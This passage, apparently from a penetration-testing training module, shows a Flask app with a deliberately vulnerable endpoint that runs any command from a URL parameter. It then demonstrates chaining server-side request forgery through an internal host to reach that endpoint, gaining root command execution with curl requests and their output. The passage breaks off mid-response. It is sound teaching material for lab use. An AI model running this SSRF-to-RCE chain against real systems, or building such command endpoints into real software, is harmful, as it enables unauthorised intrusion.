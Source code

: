 ```shell-session
    return result

@app.route("/")
def index():
    return run_command("ls -lha")

@app.route("/runme")
def runmewithargs():
    command = request.args.get("x")
    if command == "":
        return "Use /runme?x=<CMD>"
    return run_command(command)

if __name__ == "__main__":
    app.run(host="127.0.0.1", port=5000)
</a></body></html>
```

By studying the source code above, we notice a functionality that allows us to execute commands on the remote host sending a GET request to`/runme?x=<CMD>`. Let us confirm remote code execution by sending `whoami` as a command.

#### cURL - Interacting with the Target

  SSRF Exploitation Example

```shell-session
Pangulin@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=whoami"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 93
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 20:48:32 GMT

<html><body><h1>Resource: http://127.0.0.1:5000/runme?x=whoami</h1><a>root
 </a></body></html>
```

We can execute commands under the superuser context on the target application. But what happens if we try to submit a command with arguments, such as the below?

  SSRF Exploitation Example

```shell-session

Pangulin@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=uname -a"

HTTP/1.0 400 Bad request syntax ('GET /load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=uname -a HTTP/1.1')
Connection: close
Content-Type: text/html;charset=utf-8
Content-Length: 586

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
        "http://www.w3.org/TR/html4/strict.dtd">
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
        <title>Error response</title>
    </head>
    <body>
        <h1>Error response</h1>
        <p>Error code: 400</p>
```